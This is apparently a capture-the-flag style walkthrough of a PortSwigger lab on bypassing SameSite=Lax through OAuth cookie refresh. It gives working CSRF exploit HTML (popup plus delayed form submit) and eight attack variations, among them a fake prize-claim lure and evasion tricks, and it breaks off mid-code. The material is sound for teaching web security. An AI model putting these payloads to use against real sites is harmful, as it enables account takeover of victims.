

---

**Difficulty:** 🟡 Practitioner

**Goal:**

- 🔍 Identify CSRF vulnerability with SameSite=Lax cookies
- 🎯 Understand the 2-minute SameSite Lax bypass window
- 🔄 Discover OAuth flow refreshes session cookies
- ⏰ Exploit cookie refresh to reset 2-minute timer
- 🪟 Use popup window to trigger OAuth flow
- 🖱️ Bypass popup blocker with user interaction
- ⏳ Time CSRF attack after cookie refresh
- 💉 Craft multi-stage exploit with timing logic
- 🚀 Use exploit server with onclick handler
- 🚨 Bypass SameSite=Lax via cookie refresh
- 🎉 Complete lab successfully

---

## 🧠 **Concept Recap**

> **SameSite Lax bypass via cookie refresh** exploits a browser specification loophole where newly-issued cookies (less than 2 minutes old) are sent even in cross-site POST requests, despite SameSite=Lax restrictions. By forcing the victim's browser to refresh their session cookie through an OAuth flow (or similar endpoint), attackers can reset this 2-minute timer, then immediately execute a CSRF attack while the cookie is still "fresh" and will be included in the malicious request.

### 📊 **The Vulnerability**

**SameSite=Lax Protection (Normal):**

```r
User has session cookie (over 2 minutes old):
         ↓
Cookie: session=abc123; SameSite=Lax
        ↑ Set 10 minutes ago
         ↓
Attacker tries CSRF attack:
         ↓
POST /my-account/change-email (from evil.com)
         ↓
Browser behavior:
  1. Request is cross-site POST
  2. Cookie has SameSite=Lax
  3. Cookie is over 2 minutes old
  4. Cookie NOT included in request! ✓
         ↓
Server receives:
  POST /my-account/change-email
  Cookie: (none - cookie was not sent)
         ↓
Server: No session cookie → Unauthenticated
Request rejected! ✓
         ↓
CSRF attack blocked by SameSite=Lax! 🛡️
```

**Fresh Cookie Bypass (<2 minutes old):**

```r
User gets NEW session cookie:
         ↓
Set-Cookie: session=xyz789; SameSite=Lax
            ↑ Just issued (0 seconds ago)
         ↓
Attacker immediately tries CSRF:
         ↓
POST /my-account/change-email (from evil.com)
         ↓
Browser behavior:
  1. Request is cross-site POST
  2. Cookie has SameSite=Lax
  3. Cookie is LESS than 2 minutes old! ⚠️
  4. Cookie INCLUDED in request! 💣
         ↓
Server receives:
  POST /my-account/change-email
  Cookie: session=xyz789 (fresh cookie sent!)
         ↓
Server: Valid session → Authenticated ✓
Email changed! 💥
         ↓
CSRF succeeds despite SameSite=Lax! 🎯
```

**Cookie Refresh Attack:**

```r
Step 1: Force cookie refresh via OAuth
         ↓
Attacker opens: /social-login (in popup)
         ↓
OAuth flow completes automatically
         ↓
Server responds:
  Set-Cookie: session=NEW_SESSION; SameSite=Lax
              ↑ Fresh cookie issued! (0 sec old)
         ↓
Step 2: Wait 5 seconds for OAuth to complete
         ↓
Step 3: Submit CSRF attack
         ↓
POST /my-account/change-email
         ↓
Browser checks cookie age:
  Cookie age: 5 seconds (< 2 minutes) ✓
  Send cookie: YES! 💣
         ↓
Cookie: session=NEW_SESSION (included!)
         ↓
CSRF succeeds! 💥
```

**Key Insight:**

```r
Why this vulnerability exists:

1. SameSite=Lax 2-Minute Window:
   
   Browser specification (RFC 6265bis):
   └── SameSite=Lax allows cookies in cross-site POST
       └── IF cookie was set less than 2 minutes ago
           └── This is the "Lax+POST" mitigation loophole! ⚠️
   
   Intent:
   └── Allow SSO/OAuth flows to work
       └── User logs in on one site
           └── Redirected back to another site
               └── Cookie should work immediately
   
   Problem:
   └── Attackers can exploit this window!
       └── Force cookie refresh
           └── Attack within 2-minute window
               └── SameSite protection bypassed! 💣

2. The 2-Minute Timer:
   
   Timeline:
   ├── T+0 min: Cookie issued
   │   └── Cross-site POST: Cookie sent ✓
   ├── T+1 min: Still fresh
   │   └── Cross-site POST: Cookie sent ✓
   ├── T+2 min: Timer expires
   │   └── Cross-site POST: Cookie NOT sent ✓
   └── T+3 min: Cookie is "old"
       └── Cross-site POST: Cookie NOT sent ✓
   
   Attack window:
   └── Must attack within 2 minutes of cookie being set
       └── This is a small window naturally
           └── But can be FORCED by refreshing cookie! 💡

3. OAuth Flow Cookie Refresh:
   
   Normal OAuth flow:
   └── User visits: /social-login
       └── Redirects to OAuth provider
           └── User authorizes (or already authorized)
               └── Redirects back with code
                   └── Server sets NEW session cookie! ✓
   
   Key insight:
   └── Server sets NEW cookie even if user already logged in!
       └── Every OAuth flow = Fresh cookie
           └── Resets 2-minute timer
               └── Opens attack window! 💣

4. Automatic OAuth Completion:
   
   If user already authorized:
   └── /social-login → OAuth flow
       └── No user interaction needed!
           └── Auto-redirects through flow
               └── New cookie issued automatically
                   └── Perfect for attacker! 🎯
   
   Exploit flow:
   ├── Open /social-login in popup
   ├── OAuth completes automatically (3-5 seconds)
   ├── Fresh cookie issued
   └── Attack immediately (within 2 minutes)

5. Why popup is needed:
   
   Without popup:
   └── window.location = '/social-login'
       └── Navigates away from exploit page!
           └── Can't submit CSRF form
               └── Attack fails ❌
   
   With popup:
   └── window.open('/social-login')
       └── Opens in new window
           └── Exploit page stays loaded
               └── Can submit CSRF form
                   └── Attack succeeds! ✓

6. Popup blocker challenge:
   
   Problem:
   └── window.open() called without user interaction
       └── Browser blocks popup (security feature)
           └── OAuth flow doesn't run
               └── Cookie not refreshed
                   └── Attack fails! ❌
   
   Solution:
   └── window.onclick = () => window.open()
       └── Popup triggered by user click
           └── Browser allows popup
               └── OAuth runs, cookie refreshed
                   └── Attack succeeds! ✓

7. Timing is critical:
   
   Attack sequence:
   ├── User clicks page (triggers popup)
   ├── Popup opens /social-login
   ├── OAuth flow runs (3-5 seconds)
   ├── Fresh cookie issued
   ├── Wait for OAuth to complete
   ├── setTimeout() delays CSRF (5 seconds)
   └── Submit CSRF while cookie is fresh
       └── All within 2-minute window! ✓

8. Why this specific vulnerability:
   
   Combination of factors:
   ├── SameSite=Lax with 2-minute window
   ├── OAuth endpoint that refreshes cookies
   ├── Automatic OAuth completion (no user interaction)
   ├── No CSRF tokens on change email endpoint
   └── All combined = Bypass possible! 💣

The vulnerability chain:
└── Browser uses SameSite=Lax (default)
    └── Allows fresh cookies (<2 min) in cross-site POST
        └── OAuth endpoint issues new cookies
            └── Attacker forces OAuth in popup
                └── Fresh cookie issued (timer reset)
                    └── CSRF submitted within 2-minute window
                        └── Cookie included in request! 💥
                            └── SameSite protection bypassed! 🎯

Developer's oversight:
└── Relied on SameSite=Lax for CSRF protection
    └── Didn't implement CSRF tokens
        └── Didn't know about 2-minute window
            └── Didn't consider cookie refresh attacks
                └── Thought SameSite alone was enough! ❌

Real-world applicability:
└── Any site with:
    ├── SameSite=Lax cookies (default in modern browsers)
    ├── Cookie refresh endpoint (OAuth, /login, etc.)
    ├── No CSRF tokens
    └── Automatic redirect flows
        └── Potentially vulnerable! ⚠️
```

---
---

## 🛠️ **Step-by-Step Attack**

---

### 🔧 **Step 1 — Access Lab**

1. 🌐 Click **"Access the lab"**
2. 👀 Observe lab page
3. 📝 Note credentials: `wiener:peter`
4. ⚠️ Note: Victim uses Chrome

**Lab description:**

```
Lab: SameSite Lax bypass via cookie refresh

Key features:
├── OAuth-based login (social media)
├── Email change functionality
├── SameSite=Lax cookies (default)
└── Must bypass SameSite protection

Goal:
└── Perform CSRF attack that changes victim's email
    └── Despite SameSite=Lax cookie restrictions
        └── Via cookie refresh technique! 🎯

Important notes:
├── Use Chrome for testing (victim uses Chrome)
├── Cannot reuse email addresses
└── Victim will click on page (enables popup)
```

---

### 🔐 **Step 2 — Login via OAuth**

1. 🖱️ Click **"My account"**
2. 📱 Click **"Login with social media"**
3. 📝 Enter credentials:
    - Username: `wiener`
    - Password: `peter`
4. ✅ Authorize application
5. 🔄 Redirected back to account page

**OAuth flow:**

```
Login sequence:
├── Click "Login with social media"
├── Redirect to OAuth provider
├── Enter credentials
├── Authorize application
├── Redirect back with code
└── Server sets session cookie

Key observation:
└── Each OAuth flow = New session cookie! 💡
```

---

### 📧 **Step 3 — Test Email Change**

1. ✏️ Enter new email: `test@example.com`
2. 🚀 Click **"Update email"**
3. ✅ Email changed successfully

**Verify in My Account:**

```
Email: test@example.com ✓
```

---

### 🔍 **Step 4 — Capture Email Change Request**

**In Burp HTTP History:**

1. 🔎 Find: `POST /my-account/change-email`
2. 👀 Examine request

**Request:**

```HTTP
POST /my-account/change-email HTTP/2
Host: 0a1b002c03d9f8a2c0e14e9e00b80031.web-security-academy.net
Cookie: session=abc123xyz; SameSite=Lax
Content-Type: application/x-www-form-urlencoded

email=test%40example.com
```

**Critical observations:**

```HTTP
No CSRF protection:
├── No csrf parameter ❌
├── No anti-CSRF header ❌
└── Only session cookie for auth ⚠️

Session cookie:
├── Has SameSite=Lax attribute
└── This should prevent CSRF... or does it? 🤔

Vulnerability indicators:
└── No CSRF token = Potentially vulnerable
    └── But SameSite=Lax should protect
        └── Need to find bypass! 💡
```

---

### 🔎 **Step 5 — Examine OAuth Callback**

**In Burp HTTP History:**

1. 🔍 Find: `GET /oauth-callback?code=...`
2. 👀 View response

**Response:**

```HTTP
HTTP/2 302 Found
Location: /my-account
Set-Cookie: session=NEW_SESSION_VALUE
            ↑ No SameSite attribute specified!

Browser default:
└── No SameSite specified = SameSite=Lax (modern browsers)
    └── This is the default protection! ✓
```

**Key discovery:**

```
OAuth endpoint behavior:
├── Every OAuth callback sets NEW session cookie
├── Even if user already logged in
└── This refreshes the cookie timestamp!

Attack potential:
└── If we can trigger OAuth flow
    └── We get fresh cookie (<2 min old)
        └── Can exploit 2-minute window! 💡
```

---

### 💻 **Step 6 — Create Basic CSRF Exploit**

**Initial exploit attempt:**

```html
<script>
    history.pushState('', '', '/')
</script>
<form action="https://0a1b002c03d9f8a2c0e14e9e00b80031.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="test@evil.com" />
    <input type="submit" value="Submit request" />
</form>
<script>
    document.forms[0].submit();
</script>
```

**Understanding the code:**

```html
<script>
    history.pushState('', '', '/')
</script>

Purpose: Clean up browser history
└── Prevents suspicious URL in address bar
    └── Makes attack less obvious

<form method="POST" action="...">
    Standard CSRF form
    └── No CSRF token needed (none expected)

<script>
    document.forms[0].submit();
</script>

Auto-submit form immediately
```

---

### 🌐 **Step 7 — Test Initial Exploit**

**Upload to exploit server:**

1. 🌐 Go to exploit server
2. 📝 Paste exploit HTML
3. 💾 Click **"Store"**
4. 👁️ Click **"View exploit"**

**Results depend on timing:**

```
Scenario A: Recently logged in (<2 min)
├── Cookie is fresh
├── SameSite=Lax allows cookie in POST
├── Email changed! ✓
└── This is the 2-minute window!

Scenario B: Logged in >2 min ago
├── Cookie is old
├── SameSite=Lax blocks cookie in POST
├── Email NOT changed ❌
└── SameSite protection working!

Observation from HTTP History:
└── If successful: POST includes session cookie
    └── If failed: POST has no session cookie
        └── Confirms SameSite is working!
```

---

### 🔍 **Step 8 — Discover OAuth Auto-Login**

**Test /social-login endpoint:**

1. 🌐 Navigate to: `/social-login`
2. 👀 Observe behavior

**What happens:**

```
Automatic OAuth flow:
├── Redirect to OAuth provider
├── Already authorized (from previous login)
├── Auto-redirect back with code
├── Session cookie refreshed!
└── All happens automatically! 💡

Key insight:
└── No user interaction needed!
    └── Perfect for automated attack
        └── Can trigger in background! ✓

HTTP History shows:
└── GET /social-login
    └── 302 → OAuth provider
        └── 302 → /oauth-callback?code=...
            └── Set-Cookie: session=FRESH_VALUE
                └── Fresh cookie issued! 🎯
```

---

### 🎪 **Step 9 — Create Cookie Refresh Exploit**

**Modified exploit with popup:**

```html
<form method="POST" action="https://0a1b002c03d9f8a2c0e14e9e00b80031.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@evil.com">
</form>

<script>
    window.open('https://0a1b002c03d9f8a2c0e14e9e00b80031.web-security-academy.net/social-login');
    
    setTimeout(changeEmail, 5000);
    
    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```

**Understanding the attack:**

```javascript
window.open('/social-login');

Opens OAuth flow in popup window
├── Doesn't navigate away from exploit page
├── OAuth runs in background
├── Fresh cookie issued in popup
└── Cookie shared with main window (same domain)

setTimeout(changeEmail, 5000);

Waits 5 seconds
├── Gives time for OAuth to complete
├── Ensures cookie is refreshed
└── Then submits CSRF form

function changeEmail() {
    document.forms[0].submit();
}

Submits the CSRF form
├── Cookie is now fresh (<2 min)
├── SameSite=Lax allows it
└── Attack succeeds! 💥

Timeline:
T+0s: Popup opens, OAuth starts
T+3s: OAuth completes, fresh cookie set
T+5s: CSRF form submits with fresh cookie
└── All within 2-minute window! ✓
```

> 💡 **Note — When this payload alone is enough:** If you are testing yourself by clicking **"View exploit"**, your own click on that button counts as user interaction in the browser. This means `window.open()` is NOT blocked by the popup blocker in that specific case, and this Step 9 payload **will work to solve the lab for yourself**. However, when delivering to the victim, their browser will load the page without any click, so `window.open()` fires without user interaction and gets **blocked by the popup blocker**. That is why Step 11 is needed for the victim delivery.

---

### 🧪 **Step 10 — Test Popup Exploit**

1. 💾 Store the updated exploit
2. 👁️ Click **"View exploit"
3. 👀 Watch what happens

**Expected result when page auto-loads (no click):**

```
🚫 Popup blocked by browser!

Browser console shows:
"Popup was blocked because it was not triggered by user interaction"

Why this happens:
└── window.open() fires on page load
    └── No user interaction = Browser blocks popup
        └── OAuth flow never runs
            └── Cookie never refreshed
                └── Old cookie = SameSite blocks CSRF ❌

What still happens:
└── setTimeout fires after 5 seconds
    └── Form submits WITHOUT fresh cookie
        └── Browser strips old Lax cookie from cross-site POST
            └── Server gets no session → Request fails ❌
```

**But note:** When YOU click "View exploit", that click IS user interaction, so popup may open for you. The problem only manifests when the victim's browser loads the page automatically without clicking first.

---

### 🖱️ **Step 11 — Add User Interaction**

**Final exploit with onclick:**

```html
<form method="POST" action="https://0a1b002c03d9f8a2c0e14e9e00b80031.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="final@pwned.com">
</form>

<p>Click anywhere on the page</p>

<script>
    window.onclick = () => {
        window.open('https://0a1b002c03d9f8a2c0e14e9e00b80031.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }
    
    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```

**How it works:**

```html
<p>Click anywhere on the page</p>
└── Social engineering instruction
    └── Victim sees this → clicks naturally
        └── Any click anywhere on page triggers attack ✓

window.onclick = () => { ... }
├── Event listener on entire window
├── ANY click anywhere on page fires this
├── Popup triggered BY user click
└── Browser allows popup (user interaction present) ✓

window.open('/social-login')
├── Now allowed (triggered by click)
├── OAuth flow opens in popup
├── Auto-completes (already authorized)
└── Fresh cookie issued ✓

setTimeout(changeEmail, 5000)
├── 5 second delay after click
├── Gives OAuth time to complete
└── Then submits CSRF form ✓

Complete victim experience:
1. Victim opens exploit URL
2. Sees "Click anywhere on the page"
3. Victim clicks anywhere
4. Popup briefly flashes open and closes (OAuth)
5. 5 seconds later: form silently submits
6. Email changed without victim knowing! 💥
```

---

### 💾 **Step 12 — Store and Test Final Exploit**

1. 💾 Click **"Store"**
2. 👁️ Click **"View exploit"**
3. 🖱️ Click anywhere on the page

**What happens:**

```
1. Click triggers onclick handler

2. Popup opens (/social-login):
   ├── Browser allows (user clicked!)
   ├── OAuth flow initiates
   └── Redirects to OAuth provider

3. OAuth completes automatically:
   ├── Already authorized
   ├── Redirects back with code
   ├── Server sets fresh cookie
   └── Popup closes

4. After 5 seconds:
   ├── changeEmail() function runs
   ├── Form.submit() executes
   └── CSRF sent to server

5. Browser includes cookie:
   ├── Cookie age: ~5 seconds
   ├── < 2 minutes? YES ✓
   └── SameSite=Lax allows it! ✓

6. Server receives:
   POST /my-account/change-email
   Cookie: session=FRESH_SESSION
   
   email=final@pwned.com

7. Server validates:
   ├── Session cookie present? YES ✓
   ├── Valid session? YES ✓
   └── Email updated! ✓

8. Check My Account page:
   └── Email: final@pwned.com ✓
       └── Attack successful! 🎉
```

---

### 🔄 **Step 13 — Update for Victim**

1. ✏️ Change email to unique value:

```html
<input type="hidden" name="email" value="victim-pwned@attacker.com">
```

2. 💾 Click **"Store"**

**Important:**

```
Email uniqueness:
└── Cannot reuse emails
    └── If you tested with final@pwned.com
        └── Use different email for victim
            └── Example: victim@evil.com
```

---

### 🎯 **Step 14 — Deliver Exploit to Victim**

1. 🚀 Click **"Deliver exploit to victim"**
2. ⏳ Wait for confirmation

**Attack execution:**

```
Lab simulation:

1. Victim visits exploit URL

2. Sees: "Click anywhere on the page"

3. Victim clicks page
   └── Lab hint: "Victim will click any page"
       └── Guaranteed to trigger!

4. onclick handler fires:
   └── window.open('/social-login')
       └── Popup allowed (user clicked!)

5. OAuth flow in popup:
   ├── Redirect to OAuth provider
   ├── Auto-authorization (already authorized)
   ├── Redirect back to /oauth-callback
   └── Fresh cookie set: session=NEW_VALUE

6. Popup closes automatically

7. After 5 seconds:
   └── Form submits:
       POST /my-account/change-email
       Cookie: session=NEW_VALUE (age: ~5 sec)
       
       email=victim-pwned@attacker.com

8. Browser sends cookie:
   ├── Cookie age: 5 seconds
   ├── SameSite=Lax 2-min window: Active ✓
   └── Cookie included! ✓

9. Server processes:
   ├── Valid session? YES ✓
   ├── Email updated! ✓
   └── Victim compromised! 💥

10. Lab validation:
    └── Checks victim's email changed
        └── Lab solved! 🎉
```

---

### ✅ **Step 15 — Lab Completion**

**Success banner:**

```
┌─────────────────────────────────────┐
│  ✅ Congratulations!                │
│                                     │
│  You successfully bypassed          │
│  SameSite=Lax protection via        │
│  cookie refresh attack.             │
│                                     │
│  Lab: SameSite Lax bypass via       │
│       cookie refresh                │
│  Status: SOLVED ✓                   │
└─────────────────────────────────────┘
```

---

## 🔗 **Complete Attack Chain**

```r
Step 1: Access lab
         → OAuth-based login system
         ↓
Step 2: Login via social media
         → OAuth flow sets session cookie
         ↓
Step 3: Test email change function
         → POST /my-account/change-email
         → No CSRF token! ⚠️
         ↓
Step 4: Examine requests in Burp
         → Cookie: session=...; SameSite=Lax
         → OAuth callback sets new cookie each time
         ↓
Step 5: Understand SameSite=Lax
         → Blocks cross-site POST (if cookie >2 min)
         → Allows if cookie <2 min old! 💡
         ↓
Step 6: Create basic CSRF
         → Form with auto-submit
         → Test: Works if recent login (<2 min) ✓
         → Fails if old login (>2 min) ❌
         ↓
Step 7: Discover /social-login
         → Triggers automatic OAuth flow
         → Issues fresh session cookie!
         ↓
Step 8: Plan cookie refresh attack
         → Force OAuth in popup
         → Get fresh cookie
         → Attack within 2-minute window
         ↓
Step 9: Create popup exploit
         → window.open('/social-login')
         → setTimeout(submit, 5000)
         → Test: Blocked by popup blocker! ❌
         ↓
Step 10: Add user interaction
         → window.onclick = () => { attack }
         → User click triggers popup
         → Bypasses popup blocker! ✓
         ↓
Step 11: Test complete exploit
         → Click page
         → Popup opens OAuth
         → Fresh cookie issued
         → After 5 sec, form submits
         → Cookie included (< 2 min)
         → Email changed! ✓
         ↓
Step 12: Deliver to victim
         → Victim clicks page
         → OAuth refreshes cookie
         → CSRF succeeds with fresh cookie
         → SameSite=Lax bypassed! 💥
         ↓
Step 13: Lab solved! 🎉
```

---

## ⚙️ **Understanding the Vulnerability**

### **SameSite Cookie Attribute**

```
SameSite values and behaviors:

SameSite=Strict:
├── NEVER sent in cross-site requests
├── Most secure
└── Can break legitimate flows (SSO, OAuth)

SameSite=Lax (default):
├── Sent in same-site requests ✓
├── Sent in cross-site top-level GET ✓
├── NOT sent in cross-site POST ❌
└── EXCEPT: If cookie < 2 minutes old! ⚠️

SameSite=None:
├── Sent in all requests
├── Must have Secure flag
└── No CSRF protection

The 2-minute loophole:
└── RFC 6265bis specification
    └── "Lax+POST" mitigation
        └── Fresh cookies (<2 min) sent in POST
            └── For SSO/OAuth compatibility
                └── But creates attack window! 💣
```

---

### **The 2-Minute Window Explained**

```
Why 2 minutes exists:

OAuth/SSO scenario:
1. User on site A
2. Click "Login with Site B"
3. Redirect to Site B
4. Site B sets cookie
5. Redirect back to Site A with POST
6. Cookie needs to be sent!

Without 2-minute window:
└── Cookie wouldn't be sent in POST
    └── Login would fail
        └── OAuth broken! ❌

With 2-minute window:
└── Cookie sent in POST (if fresh)
    └── Login works! ✓
        └── But creates attack vector! ⚠️

Timeline visualization:
┌─────────────────────────────────────┐
│ 0:00  Cookie Set                    │
│       ↓ SameSite=Lax                │
│       ↓ Cross-site POST: Allowed ✓  │
│ 0:30  Still fresh                   │
│       ↓ Cross-site POST: Allowed ✓  │
│ 1:00  Still in window               │
│       ↓ Cross-site POST: Allowed ✓  │
│ 1:30  Still fresh                   │
│       ↓ Cross-site POST: Allowed ✓  │
│ 1:59  Last second!                  │
│       ↓ Cross-site POST: Allowed ✓  │
│ 2:00  Timer expires                 │
│       ↓ Cross-site POST: Blocked ✓  │
│ 2:01  Cookie is "old"               │
│       ↓ Cross-site POST: Blocked ✓  │
└─────────────────────────────────────┘

Attack exploitation:
└── Refresh cookie (reset timer to 0:00)
    └── Immediate attack (e.g., 0:05)
        └── Within 2-minute window! ✓
```

---

### **OAuth Cookie Refresh Mechanism**

```javascript
Why OAuth refreshes cookies:

Normal OAuth flow:
app.get('/oauth-callback', (req, res) => {
    const code = req.query.code;
    
    // Exchange code for token
    const token = exchangeCodeForToken(code);
    
    // Verify token, get user info
    const userInfo = getUserInfo(token);
    
    // Create new session (even if user already logged in!)
    const newSession = createSession(userInfo.userId);
    
    // Set fresh cookie
    res.cookie('session', newSession, {
        httpOnly: true,
        secure: true,
        sameSite: 'Lax'
    });
    
    res.redirect('/my-account');
});

Key behavior:
└── ALWAYS creates new session
    └── Even if user already has session!
        └── Fresh cookie every time
            └── Resets 2-minute timer! 💣

Why refresh instead of reuse:
├── Simplifies code (stateless OAuth)
├── Ensures latest user data
├── Handles session expiration
└── But creates security issue! ⚠️

Attack exploitation:
└── Trigger OAuth flow → Fresh cookie
    └── Attack immediately → Within window
        └── SameSite bypass! 🎯
```

---

### **Popup Window Technique**

```javascript
Why popup is necessary:

Without popup (navigation):
window.location = '/social-login';

Problems:
├── Navigates away from exploit page
├── Exploit page unloaded
├── Can't submit CSRF form
└── Attack fails! ❌

With popup:
window.open('/social-login');

Benefits:
├── Opens in new window
├── Exploit page stays loaded
├── Can submit form after OAuth
└── Attack succeeds! ✓

Popup blocker challenge:
└── Browsers block popups without user interaction
    └── Prevents unwanted popups
        └── Security feature

Solution:
window.onclick = () => {
    window.open('/social-login');
}

Benefits:
├── User click triggers popup
├── Browser allows (user interaction)
├── OAuth runs successfully
└── Attack works! ✓

Alternative triggers:
├── window.onmousemove (any mouse movement)
├── window.onkeypress (any key press)
├── setTimeout with user gesture check
└── Any user interaction works!
```

---

### **Timing Considerations**

```javascript
Why setTimeout is needed:

OAuth flow timeline:
├── T+0s: window.open('/social-login')
├── T+0.5s: Redirect to OAuth provider
├── T+1s: OAuth provider processes
├── T+2s: Redirect back to /oauth-callback
├── T+3s: Session cookie set
└── T+3.5s: Popup closes

If form submits too early:
└── Cookie not yet refreshed
    └── Old cookie used
        └── May be >2 minutes old
            └── SameSite blocks it! ❌

If form submits too late:
└── Still within 2-minute window usually
    └── But longer delay = more suspicious
        └── User may close page
            └── Attack fails! ❌

Optimal timing:
setTimeout(changeEmail, 5000);

Reasoning:
├── 5 seconds > OAuth completion (3-4s)
├── Ensures cookie refreshed
├── Still well within 2-minute window
├── Not suspiciously long delay
└── Balances reliability and stealth! ✓

Testing different delays:
├── 3 seconds: May be too fast (race condition)
├── 5 seconds: Reliable (recommended)
├── 10 seconds: Still works, longer than needed
└── 120+ seconds: Beyond 2-minute window! ❌
```

---

## 🚀 **Attack Variations**

### **Variation 1: Multiple Cookie Refreshes**

```r
<!-- Maximize attack window -->
<script>
let refreshCount = 0;

window.onclick = () => {
    // Refresh every 90 seconds
    const refresh = setInterval(() => {
        window.open('/social-login');
        refreshCount++;
        
        // Stop after 3 refreshes
        if (refreshCount >= 3) {
            clearInterval(refresh);
        }
    }, 90000);
    
    // Attack after first refresh
    setTimeout(() => {
        document.forms[0].submit();
    }, 5000);
}
</script>

Benefits:
├── Keeps cookie fresh longer
├── Gives more time for attack
└── Handles delays/issues

Drawbacks:
├── Multiple popups (suspicious)
├── More chances to detect
└── May annoy user
```

---

### **Variation 2: Hidden iFrame Refresh**

```r
<!-- Try invisible refresh first -->
<iframe id="oauth-refresh" 
        src="/social-login" 
        style="display:none">
</iframe>

<script>
setTimeout(() => {
    // Try without popup first
    document.forms[0].submit();
}, 5000);

// Fallback to popup if needed
window.onclick = () => {
    window.open('/social-login');
    setTimeout(() => {
        document.forms[0].submit();
    }, 5000);
}
</script>

Strategy:
├── Try hidden iframe first (stealthy)
├── If blocked, use popup on click
└── Adapts to browser behavior
```

---

### **Variation 3: Persistent Attack**

```r
<!-- Keep trying until successful -->
<script>
let attacked = false;

window.onclick = () => {
    if (attacked) return;
    
    // Refresh cookie
    window.open('/social-login');
    
    // Try multiple times
    setTimeout(() => tryAttack(), 5000);
    setTimeout(() => tryAttack(), 10000);
    setTimeout(() => tryAttack(), 30000);
}

function tryAttack() {
    if (attacked) return;
    
    fetch('/my-account/change-email', {
        method: 'POST',
        credentials: 'include',
        body: 'email=pwned@evil.com'
    }).then(response => {
        if (response.ok) {
            attacked = true;
            console.log('Attack successful!');
        }
    });
}
</script>

Benefits:
├── Multiple attempts increase success
├── Handles timing variations
└── Stops after success
```

---

### **Variation 4: Social Engineering Enhancement**

```r
<!-- More convincing user prompt -->
<style>
body {
    font-family: Arial, sans-serif;
    text-align: center;
    padding: 50px;
}
.button {
    background: #4CAF50;
    color: white;
    padding: 20px 40px;
    font-size: 20px;
    border: none;
    border-radius: 5px;
    cursor: pointer;
}
</style>

<h1>Claim Your Prize!</h1>
<p>You've won a $1000 gift card!</p>
<button class="button" onclick="claimPrize()">
    Click Here to Claim
</button>

<form id="csrf" method="POST" action="..." style="display:none">
    <input name="email" value="pwned@evil.com">
</form>

<script>
function claimPrize() {
    window.open('/social-login');
    setTimeout(() => {
        document.getElementById('csrf').submit();
        alert('Prize claimed! Check your email.');
    }, 5000);
}
</script>

Improvements:
├── Compelling call-to-action
├── Professional appearance
├── Explicit button (clearer than "click anywhere")
└── Higher click-through rate
```

---

### **Variation 5: Detection Evasion**

```r
// Check if within 2-minute window first
async function attemptCSRF() {
    // Test if cookie is fresh
    const test = await fetch('/my-account/change-email', {
        method: 'POST',
        credentials: 'include',
        body: 'email=test@test.com'
    });
    
    if (test.ok) {
        // Cookie is fresh, attack now!
        fetch('/my-account/change-email', {
            method: 'POST',
            credentials: 'include',
            body: 'email=pwned@evil.com'
        });
    } else {
        // Cookie not fresh, refresh it
        window.open('/social-login');
        setTimeout(attemptCSRF, 5000);
    }
}

Advantages:
├── Only refreshes if needed
├── Minimizes popup usage
└── More adaptive attack
```

---

### **Variation 6: Timing Attack Optimization**

```r
// Measure OAuth timing for precision
let oauthStartTime;

window.onclick = () => {
    oauthStartTime = Date.now();
    
    const popup = window.open('/social-login');
    
    // Monitor popup close
    const monitor = setInterval(() => {
        if (popup.closed) {
            clearInterval(monitor);
            const duration = Date.now() - oauthStartTime;
            
            // Attack immediately after OAuth
            setTimeout(() => {
                document.forms[0].submit();
            }, Math.max(0, 1000 - duration));
        }
    }, 100);
}

Benefits:
├── Adapts to OAuth speed
├── Minimizes delay
├── More precise timing
└── Faster attack execution
```

---

### **Variation 7: Fallback Strategy**

```r
<!-- Try multiple methods -->
<script>
let method = 0;

window.onclick = () => {
    switch(method) {
        case 0:
            // Try iframe first
            const iframe = document.createElement('iframe');
            iframe.src = '/social-login';
            iframe.style.display = 'none';
            document.body.appendChild(iframe);
            setTimeout(attack, 5000);
            method++;
            break;
            
        case 1:
            // If failed, try popup
            window.open('/social-login');
            setTimeout(attack, 5000);
            method++;
            break;
            
        case 2:
            // If still failed, try direct navigation
            window.location = '/social-login';
            break;
    }
}

function attack() {
    // Check if successful, try next method if not
    fetch('/my-account/change-email', {
        method: 'POST',
        credentials: 'include',
        body: 'email=pwned@evil.com'
    }).then(response => {
        if (!response.ok && method < 3) {
            // Try next method on next click
        }
    });
}
</script>
```

---

### **Variation 8: Multi-Browser Detection**

```r
// Adapt to browser differences
const isChrome = /Chrome/.test(navigator.userAgent);
const isFirefox = /Firefox/.test(navigator.userAgent);

window.onclick = () => {
    if (isChrome) {
        // Chrome: 120 second window
        window.open('/social-login');
        setTimeout(() => document.forms[0].submit(), 5000);
    } else if (isFirefox) {
        // Firefox: May handle differently
        window.open('/social-login');
        setTimeout(() => document.forms[0].submit(), 3000);
    } else {
        // Other browsers: Conservative approach
